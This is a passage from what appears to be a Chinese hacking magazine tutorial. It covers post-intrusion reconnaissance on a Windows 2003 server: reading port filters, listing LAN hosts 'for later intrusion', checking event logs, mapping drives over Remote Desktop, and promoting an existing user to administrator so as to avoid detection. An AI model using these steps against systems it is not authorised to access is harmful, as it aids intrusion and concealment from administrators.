

图3



图4



图5



图6



图7



图8

在“高级”选项中除了“IP 设置”、“DNS”、“WINS”外还有一个非常重要的“选项”（图 5），双击其中的“TCP/IP 筛选”或者选择“TCP/IP 筛选”，然后点击“属性”按钮。在此处可以设置全部网络适配器（网络连接）过滤掉哪些端口、放行哪些端口。看这台服务器，它只允许外部网络连接它的 21、80、3389 等几个端口，其它端口全部封锁。这种筛选的好处是随网络适配器（网络连接）一起启动，即使防火墙挂掉了也没有关系，外部照样不能建立非法的连接。

退回到桌面，双击“网上邻居”，然后点击“查看工作组计算机”（图 6），可以查看与当前服务器处在一个局域网内的其它主机，如果服务器在一个内网中的话，那就会查看到多台的主机。记住那些主机的名字，然后在 CMD 下输入“PING 主机名”，便可以得到局域网中其它主机的 IP 地址了，方便以后的入侵。

在桌面上右击点击“我的电脑”，选择“属性”，进入系统属性界面（图 7），这儿给出了服务器当前所使用的操作系统版本 Windows 2003 Enterprise Server SP2，还给出了系统的注册信息。并且还显示出了当前服务器的配置信息，比如服务器所使用的 CPU 为 Xeon（至强）2.5GHz、2G 的内存等。我们再切换到“计算机名”这个选项（图 8），查看当前服务器的计算机名和工作组名称，在一些 CMD 工具中常会用到计算机名和工作组这些信息的。

#### 二、服务器管理信息

所谓服务器管理信息，指的是通过计算机管理界面所能搜集到的有关计算机管理的信息，比如系统工具、存储设备、服务和应用程序等信息。了解这些信息可以充分的掌握服务器的各项管理情况。

在桌面上右击点击“我的电脑”，选择“管理”，进入计算机管理界面（图 9）。当前计算机管理界面被分为了系统工具、存储、服务和应用程序三大项。“系统工具”主要用来查询日志信息、查看本地用户及用户组、查看当前计算机的设备等；“存储”主要用来查看当前连接的各个外部存储设备，包括硬盘、移动硬盘、光驱等；“服务和应用程序”主要用来查看当前服务器所运行的服务信息，如果运行了 MSSQL 的话，还可以在这里方便的管理 MSSQL 服务。



“事件查看器”是 Windows2000/XP/2003 中提供的一个系统安全监视工具，在事件查看器中我们可以使用事件日志，收集有关硬件、软件、系统等方面的信息，并监视 Windows 系统安全。它不但可以查看系统运行日志文件，查看事件类型，还可以使用事件日志来解决系统故障等。

事件查看器根据来源将日志记录事件分为应用程序、安全和系统三个日志部分。应用程序日志（Application）包含有应用程序或一般程序记录的事件，主要记载程序运行方面的信息（图10）。



安全日志（Security）可以记录有效和无效的登录尝试等安全事件以及与资源使用有关的事件，比如创建、打开或删除文件，启动时某个驱动程序加载失败等。同时管理员还可以指定在安全日志中记录的事件，比如如果启用了登录审核，那么系统登录尝试就记录在安全日志中。大家看图 11，我通过远程登录的信息就这样被暴露无遗了。





系统日志（System）包含有 Windows 系统组件记录的事件，比如在系统日志中记录启动期间要加载的驱动程序或其它系统


## 菜鸟学堂

组件的故障（图 12）。

“本地用户和组”可以为用户和组分配权利和权限，从而限制用户和组执行哪些操作的能力。权利可授权用户在计算机上执行某些操作，如备份文件和文件夹或者关机。权限是与对象（通常是文件、文件夹或打印机）相关联的一种规则，它规定哪些用户对象可以访问该对象以及以何种方式访问。



如果想使用远程桌面客户端直接在远程计算机和本地计算机之间传送文件的话，需要打开“用户属性”中的“环境”选项（图 13），勾选上“登录时连接客户端驱动器”，然后再重新注销掉你登录的远程桌面，重新打开一个远程桌面程序，切换到“本地资源”选项（图 14），勾选上“磁盘驱动器”。这样登录服务器的 3389 就可以看到自己当前使用的计算机的磁盘了（图 15），可以轻松的实现远程计算机和本地计算机的文件传输，相当方便。


有时当我们成功授权后，修改系统中存在的低权限用户至管理员组（不增加用户以防被发现），但是当登录 3389 时却会发现此帐户被拒绝登录终端服务，提示说未授予远程登录的权限（图 16）。




